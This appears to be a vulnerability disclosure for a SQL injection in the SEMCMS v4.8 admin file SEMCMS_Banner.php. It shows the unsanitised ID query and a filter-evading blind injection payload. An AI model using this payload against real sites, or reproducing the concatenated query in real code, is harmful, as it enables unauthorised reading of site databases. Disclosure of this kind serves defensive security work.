 #  Semcms v4.8 SEMCMS_Banner.php SQL Injection

###  Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.

```
v4.8zip download link:http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
```

###  Vulnerability description

A SQL injection vulnerability exists in the SEMCMS v4.8 backend. The vulnerability results from a lack of validation of externally entered SQL statements in the SEMCMS_Banner.php parameters ID and lgid. An attacker without an account could exploit this vulnerability to execute illegal SQL commands to obtain sensitive data from the database.

###  Vulnerability analysis

filter function：

```php
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 

```

The vulnerability exists on line 32 of SEMCMS_Banner.php:

![image-20240325125850992](https://github.com/ss122-0ss/semcms/assets/131983607/6827dde3-32ea-4718-a64d-af68ab781cd3)


```php
<?php
}elseif($type=="edit"){
    
 $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_banner WHERE ID=".$_GET["ID"]));
 
?>
```



The vulnerability exists on line 69 of SEMCMS_Banner.php:

![image-20240325130124241](https://github.com/ss122-0ss/semcms/assets/131983607/3c28e528-52b9-4769-992a-ae5375649f22)


```
payload:-1 or ascii(substr(database(),1,1)) REGEXP char(94,49,48,57,36)
```

When the condition is true:

It should be noted that you need to add pictures before reproducing, otherwise no picture will be generated on the page no matter what the ID and lgid are equal to.

![image-20240325130216303](https://github.com/ss122-0ss/semcms/assets/131983607/316e01c6-f446-409f-be11-3232188d8885)

![image-20240325130221278](https://github.com/ss122-0ss/semcms/assets/131983607/7761917f-e8e2-4269-b383-d8f4e92cdff2)

![image-20240325130707386](https://github.com/ss122-0ss/semcms/assets/131983607/17aff268-9248-451f-b996-41386d8fbc54)

![image-20240325130725854](https://github.com/ss122-0ss/semcms/assets/131983607/424699af-1352-483e-b36d-01e07843c169)
